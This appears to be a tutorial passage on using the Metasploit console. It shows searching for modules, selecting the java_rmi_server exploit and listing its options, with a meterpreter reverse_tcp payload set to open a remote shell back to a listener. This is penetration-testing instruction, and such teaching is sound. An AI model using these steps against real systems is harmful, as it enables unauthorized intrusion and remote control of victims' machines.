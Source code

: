 To start the Metasploit console, enter the following command:
```shell
msfconsole
```

Once the console is open, you will have access to various tools. You can search for specific tools based on your requirements. For example, if you're attacking an Apache server, you can search for available tools:

```shell
search apache
```

The search will provide multiple results. You can narrow down the search to find the desired tool. The tools in Metasploit come in two main categories: scanners and exploits. Scanners are similar to nmap but usually more specialized, while exploits can perform actions like memory dumping and gaining a reverse shell.

Let's take an example of using the `java_rmi_server` module. First, enter `use <module>`:

```shell
msf6 > use multi/misc/java_rmi_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/misc/java_rmi_server) >
```

To view the options for the module, use the `info` command. It will provide detailed information, including a description. You can also use `show options` which gives you the essential information needed to run the module. From there, you can identify any missing settings:

```shell
msf6 exploit(multi/misc/java_rmi_server) > show options

Module options (exploit/multi/misc/java_rmi_server):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               yes       Time that the HTTP Server will wait for the payload request
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasplo
                                         it.html
   RPORT      1099             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                         or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.19.119.45    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


```